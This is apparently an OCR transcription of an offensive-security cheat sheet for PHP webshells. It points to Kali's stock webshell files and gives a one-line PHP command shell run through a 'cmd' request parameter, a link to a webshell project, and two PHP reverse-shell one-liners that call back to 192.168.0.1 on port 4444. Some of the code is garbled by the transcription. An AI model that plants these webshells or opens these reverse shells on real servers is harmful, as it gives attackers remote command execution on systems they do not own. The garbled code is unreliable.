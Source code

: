 
\-\-\- 


cat /usr/share/webshells/php/php\-reverse\-shell\.php

### Kali Default PHP CMD Shell 




\-\-\- 


cat /usr/share/webshells/php/php\-backdoor\.php

### CMD Shell 




\-\-\- 


\<?php echosystem\($\_REQUEST\["cmd"\]\);?\>

Call the CMD shell:
http://192\.168\.0\.1/cmd\_shell\.php?cmd=whoami

### WhiteWinterWolf Webshell 




\-\-\- 


[https://github.com/WhiteWinterWolf/wwwolf-php-webshell](#https://github.com/WhiteWinterWolf/wwwolf-php-webshell)



### PHP Reverse Shell 




\-\-\- 




#### Version 1 


\<?php echoshell\_exec\("/bin/bash \-i \>\& /dev/tcp/192\.168\.0\.1/4444 0\>\&1"\);?\>


\-\-\- 




#### Version 2 


\<?php $sock=fsockopen\("192\.168\.0\.1", 4444\);exec\("/bin/sh \-i \<\&3 \>\&3 2 \>\& 3"\);?\>

